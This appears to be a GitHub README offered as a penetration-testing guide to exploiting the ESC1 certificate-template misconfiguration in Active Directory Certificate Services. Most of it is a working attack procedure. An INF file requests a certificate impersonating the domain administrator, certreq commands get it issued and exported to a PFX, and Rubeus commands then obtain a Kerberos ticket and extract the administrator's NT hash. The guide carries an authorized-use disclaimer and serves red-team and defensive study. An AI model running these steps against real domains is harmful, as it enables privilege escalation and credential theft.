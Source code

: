 # ESC1_Build_In_Script

This script is designed to assist penetration testers and Red Teamers in conducting security assessments.

When operating in "live infrastructure," leveraging automation tools signed by native security and control mechanisms within Active Directory environments can introduce challenges, as these tools are tightly integrated with domain infrastructure.

In this guide, I will demonstrate how to exploit the ESC1 vulnerability in an Active Directory environment with Active Directory Certificate Services (ADCS). This will be achieved without relying on third-party tools, using only built-in Windows utilities.

The process includes:

Identifying a vulnerable certificate template configured with misconfigurations that allow unauthorized certificate enrollment.
Requesting a certificate on behalf of any user in the domain by exploiting the identified vulnerable template.
Utilizing the certificate for impersonation to escalate privileges or access restricted resources.
This demonstration highlights the importance of proper certificate template hardening and serves as a practical guide to understanding the risks associated with improperly secured ADCS implementations.

This guide is intended for authorized security assessments only. Unauthorized use or actions without proper consent may violate laws and regulations. Always ensure you have explicit permission before conducting such activities.

Enjoy learning and, most importantly, stay safe!

## **Step-by-Step Instructions**

### 1. **Create an INF file**
```ini
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local" 
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.2

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

Change the Subject record to the Distinguished Name (DN) of the user account you want to impersonate:
```
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local"
```

Additionally, update the continue record as well:
```
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

### 2. **After creating the INF file, generate a CSR file using the following command:**
```
certreq -new My_request.inf My_request.csr
```

### 3. **Next, submit the CSR to the CA server, specifying the desired certificate template, and save the issued certificate:**
```
certreq -submit -attrib "CertificateTemplate:My_Template" My_request.csr My_Cert.cer
```

### 4. **Finally, accept and install the issued certificate using the following command:**
```
certreq -accept My_Cert.cer
```

### 5. **Next, locate the Thumbprint of the certificate by running the following command:**
```
Get-ChildItem Cert:\CurrentUser\My
```

### 6. **Afterward, generate a PFX file by executing the following commands:**
```
$password = ConvertTo-SecureString -String '1qaz!QAZ' -AsPlainText -Force
Export-PfxCertificate -Cert Cert:\CurrentUser\My\5440925da4167c5f92cd9cf66a4f68622f63e1c7 -FilePath administrator.pfx -Password $password
```

### 7. **Now, with the PFX file, you can use Rubeus to request a TGT (Ticket Granting Ticket) using the certificate. Execute the following command:**
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /ptt
```

Of course, since we're working with the PKINIT protocol, we can exploit the use of the User-to-User (U2U) mechanism. This allows us to request a TGS (Ticket Granting Service) for a service that belongs to ourselves (yes, it sounds strange, but it works).

The TGS ticket we receive will include a PAC (Privilege Attribute Certificate), and within that PAC, we can extract the NT Hash of the user account we impersonated.

Just add the /getcredentials flag with the rubeus tool:
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /getcredentials
```
